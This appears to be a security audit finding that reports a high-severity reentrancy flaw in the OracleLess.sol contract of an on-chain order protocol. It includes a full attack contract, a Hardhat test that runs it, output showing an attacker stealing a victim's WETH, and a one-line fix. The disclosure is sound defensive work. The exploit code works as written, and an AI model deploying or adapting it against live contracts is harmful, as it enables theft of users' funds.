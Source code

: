 Docile Grey Albatross

High

# Lack of nonReentrant modifier in fillOrder() and modifyOrder() allows attacker to steal funds

## Description
**_Root Causes:_**
1. [OracleLess.sol::fillOrder()](https://github.com/gfx-labs/oku-custom-order-types/blob/b84e5725f4d1e0a1ee9048baf44e68d2e53ec971/contracts/automatedTrigger/OracleLess.sol#L103) can be called by anyone with a malicious `txData`. 
2. [OracleLess.sol::fillOrder()](https://github.com/gfx-labs/oku-custom-order-types/blob/b84e5725f4d1e0a1ee9048baf44e68d2e53ec971/contracts/automatedTrigger/OracleLess.sol#L103) lacks a `nonReentrant` modifier. 
3. [OracleLess.sol::modifyOrder()](https://github.com/gfx-labs/oku-custom-order-types/blob/b84e5725f4d1e0a1ee9048baf44e68d2e53ec971/contracts/automatedTrigger/OracleLess.sol#L80) lacks a `nonReentrant` modifier. 

**_Attack Path:_** (Please refer PoC for detailed execution flow)
1. Suppose the current `pendingOrderIds` looks like:
```text
pendingOrderIds = [N,  A1,  A2]
                   0    1    2    (array indices)
```
`Order-N` is by the victim, a naive user. Orders `A1` and `A2` are by the attacker.

2. Attacker has made sure the `Order-A1` and `Order-A2` recipient is a contract with address say, `target`.
3. Attacker's `Order-A1` is in range so they call `fillOrder()` with malicious `txData`.
4. `fillOrder()` internally calls `execute()` which internally calls `target.call(txData)` where both `target` and `txData` are attacker controlled.
5. From inside the `target` contract (let's say a function named `attack()`), they pull the tokenIn (WETH) of `Order-A1` as they have the approval.
6. `attack()` then sends `1 wei` of tokenOut (USDC) or any minimum amount back. The attacker will get this back later.
7. `attack()` then calls `modifyOrder(Order-A1)` and decreases the position size to the minimum allowed. They are immediately credited say, `M` WETH.
8. `attack()` next calls `modifyOrder(Order-A2)` and increases the position size to park this `M` WETH. This is done so that the overall WETH balance of OracelLess contract is not affected by this theft and the [following check](https://github.com/gfx-labs/oku-custom-order-types/blob/b84e5725f4d1e0a1ee9048baf44e68d2e53ec971/contracts/automatedTrigger/OracleLess.sol#L247) about over-spend inside `execute()` passes successfully:
```js
        require(finalTokenIn >= initialTokenIn - order.amountIn, "over spend");
```
9. The control now exits `attack()` and `fillOrder()` continues further. The code goes ahead and removes `Order-A1` from the pending order array and sends back the `1 wei` USDC to `target` on [L141](https://github.com/gfx-labs/oku-custom-order-types/blob/b84e5725f4d1e0a1ee9048baf44e68d2e53ec971/contracts/automatedTrigger/OracleLess.sol#L141). The attacker is at no loss & no gain right now.
10. The attacker now cancels `Order-A2` and receives the `M` WETH back too, thus stealing it from the rightful funds of the victim/protocol.

**_Note:_** In spite of similar structures, this attack can't be carried out inside `Bracket.sol::performUpkeep()` as `Bracket.sol::modifyOrder()` is protected by the `nonReentrant` modifier.

## Impact
High. Victim & protocol funds can be stolen at no substantial cost to the attacker.

## Proof Of Concept
1. First, add a file named `MaliciousOracleLessTarget.sol` under the `contracts/` directory:
<details>
<summary>
View MaliciousOracleLessTarget.sol
</summary>

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import "./interfaces/openzeppelin/IERC20.sol";
import "./interfaces/openzeppelin/SafeERC20.sol";

interface IOracleLess {
    function createOrder(
        IERC20 tokenIn,
        IERC20 tokenOut,
        uint256 amountIn,
        uint256 minAmountOut,
        address recipient,
        uint16 feeBips,
        bool permit,
        bytes calldata permitPayload
    ) external returns (uint96 orderId);

    function fillOrder(
        uint96 pendingOrderIdx,
        uint96 orderId,
        address target,
        bytes calldata txData
    ) external;

    function cancelOrder(uint96 orderId) external;
}

contract MaliciousOracleLessTarget {
    using SafeERC20 for IERC20;

    address public immutable oracleLessContract;
    IERC20 public immutable weth;
    IERC20 public immutable usdc;
    uint96 public secondOrderId;
    
    constructor(address _oracleLess, address _weth, address _usdc) {
        oracleLessContract = _oracleLess;
        weth = IERC20(_weth);
        usdc = IERC20(_usdc);
        weth.safeApprove(_oracleLess, type(uint256).max);
    }

    function setSecondOrderId(uint96 _orderId) external {
        secondOrderId = _orderId;
    }

    
    function createOrder(
        IERC20 tokenIn,
        IERC20 tokenOut,
        uint256 amountIn,
        uint256 minAmountOut,
        address recipient,
        uint16 feeBips,
        bool permit,
        bytes calldata permitPayload
    ) external {
        
        require (
            IOracleLess(oracleLessContract).createOrder(
            tokenIn,
            tokenOut,
            amountIn,
            minAmountOut,
            recipient,
            feeBips,
            permit,
            permitPayload
            ) > 0
        ); 
    }
    
    function fillOrder(
        uint96 pendingOrderIdx,
        uint96 orderId,
        address target,
        bytes calldata txData
    ) external {
        
        IOracleLess(oracleLessContract).fillOrder(
            pendingOrderIdx,
            orderId,
            target,
            txData
        );
    }

    function cancelOrder(uint96 orderId) external {
        IOracleLess(oracleLessContract).cancelOrder(orderId);
    }
    
    // During target.call() in fillOrder(), we:
    // 1. Modify first order to get funds back
    // 2. Transfer those funds to second order
    // 3. Send minimal USDC to pass balance check
    function attack(
        uint96 firstOrderId,
        uint256 amountToSteal,
        uint256 amountToReduce,
        uint256 minReturn
    ) external returns (bool) {
        // Step 0: Pull tokenIn (we have been provided the approval)
        weth.safeTransferFrom(msg.sender, address(this), amountToSteal);

        // Step 1: Modify first order to decrease position, getting back most funds
        (bool modifySuccess1,) = oracleLessContract.call(
            abi.encodeWithSignature(
                "modifyOrder(uint96,address,uint256,uint256,address,bool,bool,bytes)",
                firstOrderId,      // orderId
                usdc,             // _tokenOut unchanged
                amountToReduce,  // amountInDelta
                minReturn,        // _minAmountOut
                address(this),    // _recipient 
                false,           // increasePosition = false to decrease
                false,           // permit
                "0x"             // permitPayload
            )
        );
        require(modifySuccess1, "First modify failed");

        // Step 2: Increase position of second order with stolen funds
        (bool modifySuccess2,) = oracleLessContract.call(
            abi.encodeWithSignature(
                "modifyOrder(uint96,address,uint256,uint256,address,bool,bool,bytes)",
                secondOrderId,    // orderId 
                usdc,            // _tokenOut unchanged
                amountToReduce, // amountInDelta
                minReturn,       // _minAmountOut
                address(this),   // _recipient
                true,           // increasePosition = true to add funds
                false,          // permit
                "0x"            // permitPayload
            )
        );
        require(modifySuccess2, "Second modify failed");

        // Step 3: Send minimal USDC to pass balance check in fillOrder()
        usdc.safeTransfer(msg.sender, 1);

        return true;
    }

    receive() external payable {}
}
```

</details>

<br>
2. Second, add the following test case inside `test/triggerV2/happyPath.ts` and run to see it pass:
<details>
<summary>
View Test Case
</summary>

```diff
diff --git a/oku-custom-order-types/test/triggerV2/happyPath.ts b/oku-custom-order-types/test/triggerV2/happyPath.ts
index caeed34..1181295 100644
--- a/oku-custom-order-types/test/triggerV2/happyPath.ts
+++ b/oku-custom-order-types/test/triggerV2/happyPath.ts
@@ -1085,4 +1085,150 @@ describe("Oracle Less", () => {
 
 })
 
+// Add this test after the existing "Oracle Less" describe block:
+describe("OracleLess Attack via fillOrder and modifyOrder Reentrancy", () => {
+    let attackContract: string
+    let naiveOrderId: bigint
+    let firstOrderId: bigint
+    let secondOrderId: bigint
+    let attackWithWETH: bigint
+
+    before(async () => {
+        attackWithWETH = s.wethAmount / 3n
+        console.log("\nSetting up Oracle Less attack test...")
+        console.log("Attack amount:", ethers.formatEther(attackWithWETH), "WETH")
+        
+        s.OracleLess = await DeployContract(new OracleLess__factory(s.Frank), s.Frank, await s.Master.getAddress(), a.permit2)
+        // Fund victim
+        await stealMoney(s.wethWhale, await s.Oscar.getAddress(), await s.WETH.getAddress(), s.wethAmount / 3n)
+        const oscarBalance = await s.WETH.balanceOf(await s.Oscar.getAddress())
+        console.log("Oscar's WETH balance:", ethers.formatEther(oscarBalance))
+        
+        // Deploy malicious contract
+        const AttackFactory = await ethers.getContractFactory("MaliciousOracleLessTarget")
+        const attack = await AttackFactory.connect(s.Steve).deploy(
+            await s.OracleLess.getAddress(),
+            await s.WETH.getAddress(),
+            await s.USDC.getAddress()
+            )
+            attackContract = await attack.getAddress()
+            console.log("Attack contract deployed at:", attackContract)
+            
+        // Fund attack contract with WETH
+        await stealMoney(s.wethWhale, attackContract, await s.WETH.getAddress(), s.wethAmount - s.wethAmount / 3n)
+        console.log("Attack contract funded with", ethers.formatUnits(await s.WETH.balanceOf(attackContract), 18), "WETH")
+
+        // Fund attack contract with USDC
+        await stealMoney(s.usdcWhale, attackContract, await s.USDC.getAddress(), BigInt(2000000000))
+        const attackContractUSDC = await s.USDC.balanceOf(attackContract)
+        console.log("Attack contract funded with", ethers.formatUnits(attackContractUSDC, 6), "USDC")
+    })
+
+    it("Creates attacker's orders", async () => {
+        // Create first order by naive user
+        console.log("\nCreating first order by naive user...")
+        await s.WETH.connect(s.Oscar).approve(await s.OracleLess.getAddress(), s.wethAmount / 3n)
+        
+        let tx = await s.OracleLess.connect(s.Oscar).createOrder(
+            await s.WETH.getAddress(),
+            await s.USDC.getAddress(),
+            s.wethAmount / 3n,
+            0,
+            await s.Oscar.getAddress(),
+            0,
+            false, 
+            "0x"
+        )
+        
+        await tx.wait()
+        let pendingOrders = await s.OracleLess.getPendingOrders()
+        naiveOrderId = pendingOrders[0].orderId
+        expect(await s.WETH.balanceOf(await s.Oscar.getAddress())).to.be.eq(0)
+
+        // Create first attack order
+        const attack = await ethers.getContractAt("MaliciousOracleLessTarget", attackContract)
+        console.log("\nCreating first attack order...")
+
+        tx = await attack.connect(s.Steve).createOrder(
+            await s.WETH.getAddress(),
+            await s.USDC.getAddress(),
+            attackWithWETH,
+            0,
+            attackContract,
+            0,
+            false, 
+            "0x"
+        )
+        
+        await tx.wait()
+        pendingOrders = await s.OracleLess.getPendingOrders()
+        firstOrderId = pendingOrders[1].orderId
+
+        // Create second order
+        console.log("\nCreating second attack order...")
+        tx = await attack.connect(s.Steve).createOrder(
+            await s.WETH.getAddress(),
+            await s.USDC.getAddress(),
+            attackWithWETH,
+            0,
+            attackContract,
+            0,
+            false, 
+            "0x"
+        )
+
+        await tx.wait()
+        pendingOrders = await s.OracleLess.getPendingOrders()
+        secondOrderId = pendingOrders[2].orderId
+
+        // Configure attack contract
+        await attack.setSecondOrderId(secondOrderId)
+
+        // Verify orders
+        pendingOrders = await s.OracleLess.getPendingOrders()
+        expect(pendingOrders.length).to.be.eq(3, "Three orders should be pending")
+    })
+
+    it("Executes reentrancy attack", async () => {
+        const initWETH = await s.WETH.balanceOf(attackContract)
+        const initUSDC = await s.USDC.balanceOf(attackContract)
+        console.log("\nInitial balances of attackContract:")
+        console.log("WETH:", ethers.formatEther(initWETH))
+        console.log("USDC:", ethers.formatUnits(initUSDC, 6))
+
+        // Generate attack payload
+        const functionSelector = ethers.id("attack(uint96,uint256,uint256,uint256)").slice(0, 10)
+        const encodedParams = ethers.AbiCoder.defaultAbiCoder().encode(
+            ["uint96", "uint256", "uint256", "uint256"],
+            [firstOrderId, attackWithWETH, attackWithWETH - BigInt(1e16), 1n] // leave some WETH behind ... and 1 wei as minReturn
+        ).slice(2)
+        const attackData = functionSelector + encodedParams
+
+        console.log("Executing attack...")
+        const attack = await ethers.getContractAt("MaliciousOracleLessTarget", attackContract)
+        await attack.connect(s.Steve).fillOrder(
+            1,
+            firstOrderId,
+            attackContract,
+            attackData
+        )
+        await attack.connect(s.Steve).cancelOrder(
+            secondOrderId
+        )
+
+        const finalWETH = await s.WETH.balanceOf(attackContract)
+        const finalUSDC = await s.USDC.balanceOf(attackContract)
+        console.log("\nFinal balances:")
+        console.log("WETH:", ethers.formatEther(finalWETH))
+        console.log("USDC:", ethers.formatUnits(finalUSDC, 6))
+
+        expect(finalWETH).to.be.gt(attackWithWETH, "Should have gained WETH")
+        expect(finalUSDC).to.be.eq(initUSDC, "Should have no USDC spend")
+
+        const pendingOrders = await s.OracleLess.getPendingOrders()
+        expect(pendingOrders.length).to.be.eq(1, "Only the naive order should be pending")
+        expect(pendingOrders[0].orderId).to.be.eq(naiveOrderId, "Naive order id")
+    })
+})
+
 

```

</details>

<br>

Output:
```text
  OracleLess Attack via fillOrder and modifyOrder Reentrancy

Setting up Oracle Less attack test...
Attack amount: 0.55 WETH
Oscar's WETH balance: 0.55
Attack contract deployed at: 0xB737dD8FC9B304A3520B3bb609CC7532F1425Ad0
Attack contract funded with 1.1 WETH
Attack contract funded with 2000.0 USDC

Creating first order by naive user...

Creating first attack order...

Creating second attack order...
    ✔ Creates attacker's orders (78ms)

Initial balances of attackContract:
WETH: 0.0
USDC: 2000.0
Executing attack...

Final balances:
WETH: 1.64           <---------------------- started with 1.1 WETH, ended up with 1.64 WETH
USDC: 2000.0
    ✔ Executes reentrancy attack (61ms)
```

## Mitigation
Add the `nonReentrant` modifier to both `OracleLess.sol::fillOrder()` and `OracleLess.sol::modifyOrder()`.